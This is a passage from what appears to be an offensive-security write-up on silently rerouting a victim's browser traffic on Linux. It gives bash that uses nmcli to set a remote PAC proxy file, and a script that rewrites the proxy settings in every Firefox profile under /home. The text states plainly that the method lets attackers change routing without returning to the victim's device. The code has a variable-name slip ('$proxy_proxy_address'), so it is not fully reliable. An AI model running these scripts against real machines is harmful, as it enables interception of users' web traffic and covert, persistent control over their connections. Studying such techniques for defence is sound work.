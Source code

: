 ```bash
nmcli connection modify "$connection_name" proxy.browser-only no
nmcli connection modify "$connection_name" proxy.pac-url https://raw.githubusercontent.com/user/path/proxy.pac

# Reactivate the connection
nmcli connection down "$connection_name"
nmcli connection up "$connection_name"
```

In the script for Linux, we opted to use a Proxy Auto-Config (PAC) script, which offers incredible flexibility in managing proxy configurations. The PAC script, indeed, is the real mastermind behind the proxy configuration

, as it dynamically defines how internet traffic should be routed based on specific rules. This approach not only allows for advanced customization of internet traffic routing but also gives attackers the ability to dynamically alter proxy settings without the need to access the victim's device again.

##### Firefox and Other Mozilla-based Browsers

Unlike other browsers that use the operating system's proxy settings by default, Mozilla-based browsers manage their own connection settings through a specific `prefs.js` file, specific to a particular browser profile.

Since a user can have more than one profile, the only way to set a proxy through modification of this file necessarily begins with finding all preference files for a user and changing the settings of each of them.

On Linux, these files are located in the folder located at `/home/<user>/.mozilla/Firefox/Profiles/<profile>/prefs.js`.

```shell
#!/bin/bash

proxy_address="127.0.0.1"
proxy_port=8080
proxy_type=1

# Define new proxy settings
read -r -d '' newProxySettings << EOM
user_pref("network.proxy.http", "$proxy_proxy_address");
user_pref("network.proxy.http_port", $proxy_port);
user_pref("network.proxy.share_proxy_settings", true);
user_pref("network.proxy.ssl", "$proxy_address");
user_pref("network.proxy.ssl_port", $proxy_port);
user_pref("network.proxy.type", $proxy_type);
EOM

# Find all prefs.js files in Mozilla profiles under /home
find /home -type f -name "prefs.js" 2>/dev/null | while read -r file; do
    # Remove existing proxy settings
    sed -i '/network.proxy.http\|network.proxy.http_port\|network.proxy.share_proxy_settings\|network.proxy.ssl\|network.proxy.ssl_port\|network.proxy.type/d' "$file"
    
    # Append the new proxy settings
    echo "$newProxySettings" >> "$file"
done
```
